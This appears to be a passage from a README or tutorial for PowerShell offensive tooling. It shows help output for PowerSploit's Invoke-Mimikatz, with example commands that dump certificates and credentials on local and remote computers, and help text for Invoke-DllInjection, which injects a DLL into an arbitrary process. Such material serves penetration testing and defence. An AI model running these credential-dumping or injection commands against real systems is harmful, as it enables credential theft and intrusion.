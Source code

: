 ```
    Mimikatz Author: Benjamin DELPY `gentilkiwi`. Blog:
    http://blog.gentilkiwi.com. Email: benjamin@gentilkiwi.com. Twitter
    @gentilkiwi
    License:  http://creativecommons.org/licenses/by/3.0/fr/
    Required Dependencies: Mimikatz (included)
    Optional Dependencies: None
    Version: 1.5
    ReflectivePEInjection version: 1.1
    Mimikatz version: 2.0 alpha (2/16/2015)

    -------------------------- EXAMPLE 1 --------------------------

    C:\PS>Execute mimikatz on the local computer to dump certificates.


    Invoke-Mimikatz -DumpCerts


    -------------------------- EXAMPLE 2 --------------------------

    C:\PS>Execute mimikatz on two remote computers to dump credentials.


    Invoke-Mimikatz -DumpCreds -ComputerName @("computer1", "computer2")


    -------------------------- EXAMPLE 3 --------------------------

    C:\PS>Execute mimikatz on a remote computer with the custom command
    "privilege::debug exit" which simply requests debug privilege and exits


    Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1"


PS >
```

Or simply look at the whole help available for Invoke-DllInjection.

```
PS > Get-Help Invoke-DllInjection -full

NAME
    Invoke-DllInjection

SYNOPSIS
    Injects a Dll into the process ID of your choosing.

    PowerSploit Function: Invoke-DllInjection
    Author: Matthew Graeber (@mattifestation)
    License: BSD 3-Clause
    Required Dependencies: None
    Optional Dependencies: None

SYNTAX
    Invoke-DllInjection [-ProcessID] <Int32> [-Dll] <String>
    [<CommonParameters>]


DESCRIPTION
    Invoke-DllInjection injects a Dll into an arbitrary process.


```